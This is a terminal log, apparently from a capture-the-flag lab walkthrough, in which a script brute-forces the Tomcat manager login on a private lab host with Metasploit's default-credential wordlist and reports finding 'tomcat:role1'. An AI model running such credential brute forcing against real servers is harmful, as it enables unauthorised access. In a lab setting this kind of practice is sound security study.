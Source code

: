 
```bash
┌──(emvee㉿kali)-[~/Documents/thales]
└─$ python brute-tomcat-manager.py --host 10.0.2.6 --port 8080 --path /manager/html --usr /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt --pwd /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt   
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
# Target: http://10.0.2.6:8080/manager/html
# Usernames: /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt
# Passwords: /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt
# Press any key to start ...
[*] Trying 'admin:admin' ...
[*] Trying 'manager:admin' ...
[*] Trying 'role1:admin' ...
[*] Trying 'role:admin' ...
[*] Trying 'root:admin' ...
[*] Trying 'tomcat:admin' ...
[*] Trying 'both:admin' ...
[*] Trying 'QCC:admin' ...
[*] Trying 'j2deployer:admin' ...
[*] Trying 'ovwebusr:admin' ...
[*] Trying 'cxsdk:admin' ...
[*] Trying 'ADMIN:admin' ...
[*] Trying 'xampp:admin' ...
[*] Trying 'admin:manager' ...
[*] Trying 'manager:manager' ...
[*] Trying 'role1:manager' ...
[*] Trying 'role:manager' ...
[*] Trying 'root:manager' ...
[*] Trying 'tomcat:manager' ...
[*] Trying 'both:manager' ...
[*] Trying 'QCC:manager' ...
[*] Trying 'j2deployer:manager' ...
[*] Trying 'ovwebusr:manager' ...
[*] Trying 'cxsdk:manager' ...
[*] Trying 'ADMIN:manager' ...
[*] Trying 'xampp:manager' ...
[*] Trying 'admin:role1' ...
[*] Trying 'manager:role1' ...
[*] Trying 'role1:role1' ...
[*] Trying 'role:role1' ...
[*] Trying 'root:role1' ...
[*] Trying 'tomcat:role1' ...
[!] Credentials found: tomcat:role1
[*] Trying 'both:role1' ...
[*] Trying 'QCC:role1' ...
[*] Trying 'j2deployer:role1' ...
[*] Trying 'ovwebusr:role1' ...
[*] Trying 'cxsdk:role1' ...
[*] Trying 'ADMIN:role1' ...
[*] Trying 'xampp:role1' ...
[*] Trying 'admin:role' ...
[*] Trying 'manager:role' ...
[*] Trying 'role1:role' ...
[*] Trying 'role:role' ...
[*] Trying 'root:role' ...
[*] Trying 'tomcat:role' ...
[*] Trying 'both:role' ...
[*] Trying 'QCC:role' ...
[*] Trying 'j2deployer:role' ...
[*] Trying 'ovwebusr:role' ...
[*] Trying 'cxsdk:role' ...
```